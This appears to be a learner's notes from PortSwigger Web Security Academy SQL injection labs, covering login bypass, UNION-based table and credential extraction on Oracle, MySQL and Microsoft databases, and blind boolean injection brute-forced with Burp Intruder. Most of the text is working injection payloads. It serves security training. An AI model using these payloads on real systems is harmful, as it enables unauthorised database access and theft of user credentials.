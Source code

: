 ### sql injection

hint: internal server error on http route.  
 '+OR+1=1-- #will query all #SELECT \* FROM products WHERE catergory = '' or 1+1--' equivalent.
ex: https://0aa000d504428d79c0e803da00430076.web-security-academy.net/filter?category=%27+OR+1=1--

### SQL injection vulnerability allowing login bypass

Use burp suite to intercept and modify login.
modify username with parameter administrator'--

### SQL union injection

2 requirements:
How many columns are being returned from the original query?
Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

Continue adding null values until the error disappears and the response includes additional content containing the null values.  
ex: /filter?category='+UNION+SELECT+NULL,NULL-- HTTP/1.1  
-NULL is a special keyword that matches any data type.
-add NULLs if 'internal server error'
ex: '+UNION+SELECT+NULL,NULL,NULL--

### Lab: SQL injection UNION attack, finding a column containing text

Use Burp Suite to intercept and modify the request that sets the product category filter.
Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:
'+UNION+SELECT+NULL,NULL,NULL--
Try replacing each null with the random value provided by the lab, for example:
'+UNION+SELECT+'abcdef',NULL,NULL--
If an error occurs, move on to the next null and try that instead.

### SQL injection UNION attack, retrieving data from other tables

Find number of columns using NULL  
'+UNION+SELECT+NULL,NULL--  
Check columns for string values  
'+UNION+SELECT+'string','string2'--
Replace strings to search for username and password on table users
'+UNION+SELECT+username,+password+FROM+users--
right click - show response in browser, open new tab, paste.
get administrator password, and paste into login.

### SQL injection UNION attack, retrieving multiple values in a single column

intercept category, move to repeater  
in repeater find column size  
'+UNION+SELECT+NULL,'string'--  
locate string for username/password injection  
concat username and password into string starr is used to seperate values so you can find easily  
'+UNION+SELECT+NULL,username||'\*'||password+FROM+users--  
right click response show response in browser  
grab administrator password and login

### Lab: SQL injection attack, querying the database type and version on Oracle

Hint: There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual
ex: '+UNION+SELECT+NULL,NULL+FROM+dual--
check for string data types
'+UNION+SELECT+'string','string2'+FROM+dual--
Now look for version by using BANNER, NULL, and v$version from cheatsheet.
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Hint: You can find some useful payloads on our SQL injection cheat sheet.
for this instead of using '--' at the end, it will be a hash #  
ex: '+UNION+SELECT+NULL#
find number of columns and check for strings
'+UNION+SELECT+'string2','string1'#
for microsoft @@version  
ex:'+UNION+SELECT+@@version,NULL#

### SQL injection attack, listing the database contents on non-Oracle databases

Hint: You can find some useful payloads on our SQL injection cheat sheet.  
proxy -> intercept -> repeater  
Non-oracle -- -> NULL NULL enumerate until columns found, then string search.  
Grab name of tables we want username/passwords table_name keyword information_schema.tables keyword  
ex: '+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--  
Show response in browser -> ctrl+f 'users' save user custom name
search column_name and information.schema.columns Where table_name= usercustomName
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_zleagd'--
find name of username column and password column -> ex: password_ozeovi username_oiwhns
Then make UNION select with username, password, FROM, usertable
ex: '+UNION+SELECT+username_oiwhns,password_ozeovi+FROM+users_zleagd--
grab username/password for administrator
Login from Myaccount

### SQL injection attack, listing the database contents on Oracle

proxy-intercept-repeater - ORACLE (+FROM+dual) instead of --
enumerate nulls for columns '+UNION+SELECT+NULL,NULL+FROM+dual--
test strings - both are strings
Grab name of tables we want username/passwords table_name keyword all_tables keyword for ORACLE
ex: '+UNION+SELECT+table_name,NULL+FROM+all_tables--
get users table info - USERS_ICXPNX
search column_name and ORACLE: all_tab_columns using our username table to filter via WHERE clause
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ICXPNX'--
Then make UNION select with username, password, FROM, usertable
PASSWORD_TYRFNT
USERNAME_AIPDKN
'+UNION+SELECT+USERNAME_AIPDKN,PASSWORD_TYRFNT+FROM+USERS_ICXPNX--
Log in using administrator and password.

# BLIND SQL INJECTIONS

### Lab: Blind SQL injection with conditional responses

Hint: You can assume that the password only contains lowercase, alphanumeric characters.  
intercept, reload, repeater, see Cookie: tracking-ID=  
use booleans EX: Cookie: TrackingId=AfmV0i55jXUHch34' AND '1'='1;  
search for 'Welcome back' string shows that it's injectable  
if boolean is a false and doesn't give 500 error, it shows it's injectable.  
intercept -> repeater -> send to intruder  
intruder -> clear positions -> trackingId position, figure out length of password.  
ex: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a;  
highlight '1' click add in intruder  
ex:' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a; session=80ZmlNFRn852B56JEPNfCP8hWIoUQcZX  
payload -> type -> numbers -> from 1 to 30(super secure) step = 1.  
options tab -> grep match -> clear -> add "Welcome" we know logged in users see "Welcome back!"  
ex: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a;  
intruder -> clusterbomb(two payloads)  
TrackingId=skE2Uot3KwnNY4m0' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a;  
select payloads  
Cookie: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§;  
payload 1 -> numbers 1-20(we know PW is 20 long from prior step) step 1  
payload 2 -> simple list ->payload options -> add a-z and 0-9  
Start attack, wait for 30 minutes, order results
